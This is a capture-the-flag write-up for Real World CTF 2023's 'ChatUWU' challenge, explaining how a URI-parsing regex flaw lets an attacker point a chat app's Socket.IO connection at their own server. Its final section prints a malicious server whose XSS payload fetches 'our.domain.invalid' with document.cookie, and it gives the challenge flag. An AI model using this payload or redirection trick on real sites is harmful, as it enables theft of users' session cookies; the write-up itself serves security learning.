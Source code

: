 ```yaml
---
layout: post
title: "Real World CTF 2023: ChatUWU Writeup"
categories: writeups
authors:
  - WhoNeedsSleep
---
```


[Real World CTF 2023](https://realworldctf.com/challenge) is a jeopardy-style capture-the-flag event, known for its realistic challenges.
We participated as part of the [Sauercloud](https://ctftime.org/team/54748) CTF team.

## Overview
The challenge description reads: "I can ensure you that there is no xss on the server! You will find the flag in the admin's cookie." Also provided are links to the challenge and the XSS bot, as well as the source code. So immediately our goal is clear: steal the cookies of the XSS bot!

Let's take a look at the application:
The challenge is a simple Node.js app with one static HTML file, that is served, and a single `index.js` for the backend. The app is a simple chat app.

## Let's find an XSS

Upon taking a look at `index.html` we first see that it uses `Socket.IO` for the chat communication with the server and also quickly find this:
```js
socket.on('msg', function (msg) {
    let item = document.createElement('li'),
        msgtext = `... ${msg.text}`;
    room === 'DOMPurify' && msg.isHtml ? item.innerHTML = msgtext 
    ...
    messages.appendChild(item);
    ...
```

So any messages received via `Socket.IO` are inserted into the DOM without sanitization if the chat-room's name is `DOMPurify` and the message's `isHtml` field is `true`.
So let's try to send a message containing an XSS payload

![Screenshot escaped Message](/imgs/rwctf23-chatuwu-escaped-message.png)

Clearly that didn't work -- so the server must have sanitized it before sending it back to all clients.

## The Server Code

Here we immediately see why our simple attempt failed:
```js
io.to(room).emit('msg', {
    from: DOMPurify.sanitize(msg.from),
    text: DOMPurify.sanitize(msg.text),
    isHtml: true
});
```
Any message sent to the clients is piped through DOMPurify -- RIP simple XSS.

## A Different Approach 

Given the simplicity of the app, we were pretty sure that the client side DOM injection is our way of stealing the cookie. So maybe, we can attack the connection by hijacking the `Socket.IO` connection.

Let's see how the client establishes the connection:
```js
let socket = io(`/${location.search}`) 
```

Interestingly, the entire query string is passed into `Socket.IO` for parsing. Let's take a look at how the parsing works. In the used `socket.io.js` we find this in the constructor:
```js
uri = parse(uri);
opts.hostname = uri.host
```
Looks promising. We can completely control `uri` except for the leading `/`. Let's dig deeper. For `parse` we find this:
```js
  // imported from https://github.com/galkn/parseuri

  /**
   * Parses an URI
   *
   * @author Steven Levithan <stevenlevithan.com> (MIT license)
   * @api private
   */
  ...
  function parse(str) {...}
```

In the repo we find this issue: [https://github.com/galkn/parseuri/issues/12](https://github.com/galkn/parseuri/issues/12), and it's still open! Unfortunately, there are no details about the security issue, so we need to find it ourselves.

## The Vulnerability

Let's take a look at the regex used for the parsing of `uri`:
```js
var re = /^(?:(?![^:@]+:[^:@\/]*@)(http|https|ws|wss):\/\/)?((?:(([^:@]*)(?::([^:@]*))?)?@)?((?:[a-f0-9]{0,4}:){2,7}[a-f0-9]{0,4}|[^:\/?#]*)(?::(\d*))?)(((\/(?:[^?#](?![^?#\/]*\.[^?#\/.]+(?:[?#]|$)))*\/?)?([^?#\/]*))(?:\?([^#]*))?(?:#(.*))?)/;
```

The interesting part for us is that it checks for username/password as part of the uri and it does so by looking for any string in front of the first `@` in the passed uri, not just in the authority part. So if we append `@our.domain.invalid` to the end of `uri`, the parse function will treat everything between the protocol and the `@` as a username and `our.domain.invalid` as the hostname.
This is the vulnerability we need.

## The Exploit

Idea: We will host a malicious version of `index.js` ourselves with a key addition: a JavaScript payload that exfiltrates the cookie that is sent, instead of the normal join message. It is sent after a user joins to all users including the joining one.

Code:
```js
const app = require('express')();
const http = require('http').Server(app);
const io = require('socket.io')(http, {
  cors: {
    origin: "*",
    methods: ["GET", "POST"]
  }
});
const DOMPurify = require('isomorphic-dompurify');

const hostname = process.env.HOSTNAME || '0.0.0.0';
const port = 80;
const rooms = ['textContent', 'DOMPurify'];


app.get('/', (req, res) => {
    res.sendFile(__dirname + '/index.html');
});

io.on('connection', (socket) => {
    let {nickname, room} = socket.handshake.query;
    socket.join(room);
    io.to(room).emit('msg', {
        from: 'system',
        text: "<img src onerror='fetch(\"https://our.domain.invalid/?\" + document.cookie)'>",
        isHtml: true
    });
});

http.listen(port, hostname, () => {
    console.log(`ChatUWU server running at http://${hostname}:${port}/`);
});
```

We get the flag 🍉:
```
rwctf{1e542e65e8240f9d60ab41862778a1b408d97ac2}
```
